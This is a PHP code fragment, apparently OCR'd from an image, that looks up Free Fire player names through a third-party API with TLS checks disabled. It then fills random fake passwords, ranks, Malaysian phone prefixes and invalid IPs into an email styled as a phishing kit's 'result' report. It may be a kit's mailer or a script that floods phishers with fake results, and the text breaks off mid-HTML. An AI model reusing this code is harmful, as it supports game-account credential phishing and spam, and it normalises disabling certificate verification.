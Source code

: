 


// CURL TRUE ID
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, "http://randiramli.my.id/api/trueid/freefire/?id=".$userId."&RandKey=RndyXD");
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 0);
$result = curl_exec($ch);
curl_close($ch);
$res = json_decode($result,true);
$nick = $res['nickname'];
$id = $res['userid'];



$pass = array("agus","Phising Goblok","BryanAzhari","AnasAsih","MochammadFirmansyah","RayTiara","SyariefAggilNoverlia","PanduLaurensia","FahlianMarutoDesiana","AnugrahAbdulSasna","PraditiaZahra","DwikiFatimah","ReksaAndrianto","CarditoZonanda","AlfinHotasi","SyahidDefri","MuhamadNirmala","AufaSugiyanto","SebastianMufti","AmarSetiarini","MubarakJohirin","OkkyAbidah","ArioHerdianti","YusufAlim","SyahdianGultom","MiftachulLatifani","DedeRiahdita","YenuAzalia","FaishalPrabowo","HafizhLarasati","EdwinEkaRudiatin","AntonYahya","BeckleyRaka","RizalAhmad","ahmadyani","LukmanArfianti","AxelWidyawati","HudzaifahErditya","KevinNiroha","MarkMirzaChairunisa","EmirResa","RyanPamungkas","HizkiaAndrillaSatrio","YolaAdityaMaulina","FinaldiAlvianto","AndikaDickySetyawati","YosuaMariana","IrlanNurfalah","KhaznanAndikaPrihatiwi","IzharFadillah");
$random_keys=array_rand($pass,50);
$password = $pass[$random_keys[rand(0,49)]]; // Var Password


$Rank = array("Bronze","Silver","Gold","Platinum","Diamond","Master");
$random_keys=array_rand($Rank,5);
$tier = $Rank[$random_keys[rand(0,4)]]; // Var Tier

$region = array("🇲🇾","🇲🇾","🇲🇾","🇲🇾","🇲🇾","🇲🇾");
$random_keys=array_rand($region,6);
$reg = $region[$random_keys[rand(0,1)]]; // var region


$kata = array("☂️SETOR ML","☂️SETOR ML GG","☂️SETOR ML");
$random_keys=array_rand($kata,3);
$kat = $kata[$random_keys[rand(0,2)]]; // var kata

$nomor = array("+60","+60","+60","+60","+60","+60","+60","+60");
$random_keys=array_rand($nomor,8);
$no = $nomor[$random_keys[rand(0,1)]]; // Var Nomor

$ipanres = array("125.181.371","238.291.371","111.342.232","222.727.382");
$random_keys=array_rand($ipanres,4);
$ip = $ipanres[$random_keys[rand(0,1)]];


// Jangan Edit maszeh nanti Eror loppingnya
$subjek = "AUTO RESS MANTEP PUNYA BAGAS ARYA $email";
$pesan = <<<EOD
<!DOCTYPE html>
	<html>
	<head>
		<title></title>
		<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
		<style type="text/css">
			body {
				font-family: "Helvetica";
				width: 90%;
				display: block;
				margin: auto;
				border: 1px solid #fff;